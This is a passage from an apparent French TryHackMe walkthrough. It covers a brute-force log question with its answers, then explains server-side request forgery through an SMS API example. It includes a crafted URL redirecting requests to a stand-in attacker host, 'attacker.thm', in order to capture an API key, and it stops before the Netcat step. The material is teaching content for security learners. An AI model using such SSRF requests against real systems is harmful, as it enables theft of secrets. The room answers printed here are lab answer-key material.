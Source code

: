 Nous pouvons observer que l'adresse IP `49.99.13.16` effectue plusieurs tentatives de connexion échouées (code 401) avec différents noms d'utilisateur communs (`admin`, `administrator`, `anonymous`, `root`) en un court laps de temps (seulement 15 secondes entre les tentatives).

**Réponse :** `49.99.13.16`

**What kind of attack is being carried out?**

Le pattern observé dans les logs est caractéristique d'une attaque par **force brute** : un attaquant essaie systématiquement différents noms d'utilisateur (et probablement mots de passe) pour tenter de s'authentifier sur le système. Les multiples échecs d'authentification successifs provenant de la même adresse IP en sont la preuve.

**Réponse :** `brute force`

### Task 22 - 10. Server-Side Request Forgery (SSRF)

**Falsification de requête côté serveur** (Server-Side Request Forgery)

Ce type de vulnérabilité se produit lorsqu'un attaquant peut contraindre une application Web à envoyer des requêtes HTTP en son nom vers des destinations arbitraires, tout en contrôlant le contenu de la requête elle-même. Les vulnérabilités `SSRF` proviennent souvent d'implémentations dans lesquelles l'application Web doit utiliser des services tiers ou des ressources externes.

Prenons l'exemple d'une application Web qui utilise une **API externe** pour envoyer des notifications par SMS à ses clients. Pour chaque SMS envoyé, le site Web doit faire une requête HTTP au serveur du fournisseur SMS avec le contenu du message. Étant donné que le fournisseur de SMS facture par message, il exige que vous ajoutiez une clé secrète (clé API) pré-attribuée à chaque requête. Cette clé API sert de jeton d'authentification et permet au fournisseur de savoir à qui facturer chaque message.

L'application fonctionnerait normalement comme ceci :

![SSRF](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/271d0075650cdf6499f994f99fa7eb8a.png)

En regardant le schéma ci-dessus, il est facile de voir où se situe la vulnérabilité. L'application expose le paramètre `server` aux utilisateurs, qui définit le nom du serveur du fournisseur de services SMS. Si un attaquant le souhaite, il pourrait simplement modifier la valeur du paramètre `server` pour pointer vers une machine qu'il contrôle. L'application Web transmettrait alors volontiers la requête SMS à l'attaquant au lieu du fournisseur SMS légitime.

Dans le cadre du message transféré, l'attaquant obtiendrait la clé API, lui permettant d'utiliser le service SMS pour envoyer des messages à vos frais. Pour y parvenir, l'attaquant n'aurait qu'à faire la requête suivante :

```bash
https://www.mysite.com/sms?server=attacker.thm&msg=ABC
```

Cela amènerait l'application Web vulnérable à faire une requête vers :

```bash
https://attacker.thm/api/send?msg=ABC
```

L'attaquant peut alors simplement capturer le contenu de la requête (y compris la clé API secrète) en utilisant `Netcat` :
